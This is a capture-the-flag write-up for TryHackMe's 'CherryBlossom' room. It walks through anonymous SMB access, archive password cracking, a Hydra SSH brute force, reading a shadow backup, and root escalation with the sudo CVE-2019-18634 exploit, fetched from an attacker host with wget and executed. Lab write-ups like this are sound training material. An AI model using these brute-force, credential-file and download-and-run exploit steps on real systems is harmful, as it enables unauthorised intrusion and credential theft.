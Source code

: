 # [CherryBlossom](https://tryhackme.com/room/cherryblossom)

## Boot-to-root with emphasis on crypto and password cracking.

# Flags

## Hack the machine and get the flags!

### Journal Flag

_https://github.com/DominicBreuker/stego-toolkit_

1. Port scan with nmap to identify available services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/c322b55a-e855-428c-9d12-3663e541b038)

2. The scan reveals an SMB service is running. Examine and access it

```bash
# List available SMB shares without providing credentials
smbclient -L //IP -N

# Connect to the Anonymous share without credentials
smbclient //IP/Anonymous -N

# List contents of the share
ls

# Download the journal.txt file for analysis
get journal.txt
```

![SCREEN02](https://github.com/user-attachments/assets/6d414add-e57b-4c57-ae60-fb1d8deae3c9)

3. The `journal.txt` file is base64 encoded. Decode it to reveal its true content

```bash
cat journal.txt | base64 -d > journal
```

4. Using steganography extract the hidden data from PNG image

```bash
pip3 install stegpy
stegpy journal
```

5. Fix the magic numbers to match `.zip` file
   - Replace the first characters with `50 4B 03 04`

```bash
hexedit _journal.zip
```

![SCREEN03](https://github.com/user-attachments/assets/10eae49e-1ed6-4e8c-952a-99477edd76c1)

6. The `.zip` file is password protected. Use John the Ripper to crack it
   - The password is **september**

```bash
zip2john _journal.zip > hash.txt
john hash.txt
unzip _journal.zip
```

![SCREEN04](https://github.com/user-attachments/assets/bb14c848-8e5d-4809-bfde-6074d107fc75)

7. Inside the ZIP is a file named `Journal.ctz` which is a 7z archive, also password protected
   - The password is **tigerlily**

```bash
# Download the 7z2john script if not available
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/7z2john.pl -O 7z2john
chmod +x 7z2john

# Create a hash from the 7z file
./7z2john Journal.ctz > hash.txt

# Crack the hash using rockyou.txt
john --wordlist=/root/Tools/wordlist/rockyou.txt hash.txt

# If you encounter errors, you may need to install dependencies:
apt-get install liblzma-dev
cpan install Compress::Raw::Lzma
```

![SCREEN05](https://github.com/user-attachments/assets/7106f491-f4b0-4b42-b375-706365c31d4d)

8. The extracted contents include a diary with the first flag and important information
   - Usernames: **Anitta**, **Lily**, **Harry**
   - A file containing encoded passwords named: **cherry-blossom**

![SCREEN06](https://github.com/user-attachments/assets/80235b71-ca58-45e1-9c82-216aff0972e2)

---

### User Flag

1. From the `Journal.ctz` archive, extract the encoded password list
   - Copy the hash from line 55, decode it, and extract to a list

```bash
cat encoded | base64 -d > cherry-blossom.list
```

![SCREEN07](https://github.com/user-attachments/assets/07e20b29-71da-4334-99d2-eead7d5752e5)

2. Brute force SSH login using the discovered usernames and password list
   - The credentials are `lily:Mr.$un$hin3`

```bash
# Create a file with potential usernames
echo -e "lily\nanitta\nharry" > users.txt

# Use Hydra to brute force SSH
hydra -L users.txt -P cherry-blossom.list ssh://IP
```

![SCREEN08](https://github.com/user-attachments/assets/468dd843-e7d5-4a59-bfc6-a56acbb8dba8)

3. After gaining access as lily, find a backup of the shadow file with password hashes
   - Copy johan's password hash from the backup

```bash
cat /var/backups/shadow.bak
```

![SCREEN09](https://github.com/user-attachments/assets/5dce60c0-8581-4526-bfef-66a24c055b07)

4. Crack johan's password hash using our custom wordlist
   - The password is **##scuffleboo##**

```bash
# Save johan's hash to a file on your attacking machine
echo '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' > hash.txt

# Use John the Ripper with the SHA-512 format
john --format=sha512crypt --wordlist=cherry-blossom.list.txt hash.txt
```

![SCREEN10](https://github.com/user-attachments/assets/c1243026-e70a-4689-91ac-d85f3256b813)

5. Switch to johan's account and retrieve the user flag

```bash
# Switch user to johan
su johan

# Enter password: ##scuffleboo##

# Rread the user flag
cat /home/johan/user.txt
```

![SCREEN11](https://github.com/user-attachments/assets/07b11070-0301-4d76-8ce9-ba35713d6f9c)

---

### Root Flag

1. To escalate to root, exploit the sudo vulnerability CVE-2019-18634 (buffer overflow in pwfeedback)

```bash
# On the attacking machine, clone the exploit repository
git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
cd sudo-cve-2019-18634/

# Compile the exploit
gcc exploit.c -o exploit

# Start a simple HTTP server to transfer the exploit
python -m SimpleHTTPServer
```

![SCREEN12](https://github.com/user-attachments/assets/63189781-3c94-44c2-8944-bb53721027c9)

```bash
cd /tmp

# Download the compiled exploit
wget http://IP:8000/exploit

# Make it executable
chmod +x exploit

# Execute the exploit
./exploit

# Verify we have root access
whoami

# Retrieve the root flag
cat /root/root.txt
```

![SCREEN13](https://github.com/user-attachments/assets/d4c6a7bc-3be2-4e92-9d53-5361ef611299)
